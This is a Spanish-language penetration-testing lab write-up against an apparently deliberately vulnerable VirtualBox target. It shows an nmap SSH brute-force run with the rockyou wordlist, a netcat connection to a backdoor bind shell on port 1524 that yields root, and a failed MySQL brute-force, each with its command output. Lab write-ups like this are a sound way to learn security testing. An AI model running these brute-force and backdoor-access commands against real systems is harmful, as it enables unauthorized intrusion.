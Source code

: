 ##### Ataque a ssh 22

Lanzamos un ataque al puerto 22 para procurar encontrar un par de claves usuario/password que permitan el acceso.

```bash
┌──(root㉿kali)-[~]
└─# nmap -sS -p 22 --script ssh-brute --script-args userdb=usuarios.txt,passdb=/usr/share/wordlists/rockyou.txt 198.0.2.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 07:48 CEST
NSE: [ssh-brute] Trying username/password pair: root:root
NSE: [ssh-brute] Trying username/password pair: admin:admin
NSE: [ssh-brute] Trying username/password pair: user:user
NSE: [ssh-brute] Trying username/password pair: test:test
NSE: [ssh-brute] Trying username/password pair: guest:guest
NSE: [ssh-brute] Trying username/password pair: mysql:mysql
NSE: [ssh-brute] Trying username/password pair: administrator:administrator
NSE: [ssh-brute] Trying username/password pair: operator:operator
NSE: [ssh-brute] Trying username/password pair: backup:backup
NSE: [ssh-brute] Trying username/password pair: root:123456
...
```

##### Ataque a bindshell 1524

Podemos ejecutar una shell reversa a través del puerto 1524 que nos de acceso al sistema gracias a una bind shell (puerta trasera o backdoor).

```bash
┌──(root㉿kali)-[~]
└─# nc 198.0.2.6 1524
root@ui11:/# whoami
root

```

##### Ataque a mysql 3306

Primero intento conectarme con root y pruebo contraseñas típicas.

```bash
┌──(root㉿kali)-[~]
└─# mysql -u root -p -h 198.0.2.6
Enter password:
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

Intento realizar un ataque de fuerza bruta con el script **mysql_brute** pero no da resultado.

```bash
┌──(root㉿kali)-[~]
└─# nmap -p3306 --script mysql-brute 198.0.2.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 07:11 CEST
Nmap scan report for 198.0.2.6
Host is up (0.019s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts: No valid accounts found
|   Statistics: Performed 50004 guesses in 374 seconds, average tps: 89.0
|_  ERROR: The service seems to have failed or is heavily firewalled...
MAC Address: 08:00:27:D8:16:4E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 383.69 seconds
```
